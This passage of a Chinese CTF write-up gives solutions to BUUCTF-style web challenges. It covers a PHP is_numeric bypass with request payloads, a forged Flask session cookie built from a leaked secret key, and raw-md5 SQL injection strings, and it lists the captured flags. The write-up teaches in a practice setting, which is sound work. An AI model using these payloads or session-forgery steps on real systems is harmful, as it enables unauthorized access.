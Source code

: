flag{5756e16a-885e-4009-83e1-653a4818a39a}

{{% /spoiler %}}

{{% spoiler "[极客大挑战 2019]BuyFlag  |  is_numeric" %}}

/pay.php，页面源码

```
~~~post money and password~~~
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
```

`is_numeric`函数用`%20`绕过

```
password=404%20&money[]=100000000
Cookie: user=1
```

flag{a3cd1620-d3f7-45a9-8b3d-ace1ed21e7fb}

{{% /spoiler %}}

{{% spoiler "[HCTF 2018]admin  |  unicode欺骗 flask-session" %}}

————非预期：admin: 123弱口令

————解法1：`ᴬᴰᴹᴵᴺ`unicode欺骗，注册`ᴬᴰᴹᴵᴺ: 456`的号，改密为999，登入

————解法2：看cookie是熟悉的flask-session，改密页面/change提示https://github.com/woadsl1234/hctf_flask/，拿到secret='ckj123'

```
python3 flask_session_cookie_manager3.py encode -s 'ckj123' -t "{'_fresh':True,'_id': b'Yjg0OGY3OWU1MTI4ZWNhNWU1YWFlZWJiYzg5ZGM1NWNkZTIxYzlkNWJmZjI0YzhkMzljYWE1YzFlZTQ4OWEzY2EwYjlmNGYzODU4OTA1MTA0M2E3MWQ3ODM0M2JmY2IxNjI4MGQxOTQwNThmZDFmODg2ODFlZTdhOTQ1ZGQ0YWM=','csrf_token': b'NGEwMDMxNmEyYzhlNzhkYWRiMTUwYjBiOWIwNGFmYzI1YTIxOTQzMg==','image': b'eWl6eA==','name':'amiz','user_id':'10'}"
```

flag{f479cd5d-4bc7-47a6-b6b2-be84ff250880}

注意这个脚本加密的时候的内部都是单引号，并且没有多余的花括号

{{% /spoiler %}}

{{% spoiler "[BJDCTF2020]Easy MD5  |  sqli raw-md5永真 md5绕过" %}}

响应头有Hint: select * from 'admin' where password=md5($pass,true)

php中md5的第二个参数为true时输出16字符二进制，默认false输出32字符十六进制，也就是说这里返回raw md5

mysql中在进行布尔类型判断时，1开头的字符串会被当做int型

```
password='xxx'or'1xxx'
password='xxx'or 1
password='xxx'or'1'
password='xxx'or true	# 以上三者均返回true
password='xxx'or'0trash'	# false
```
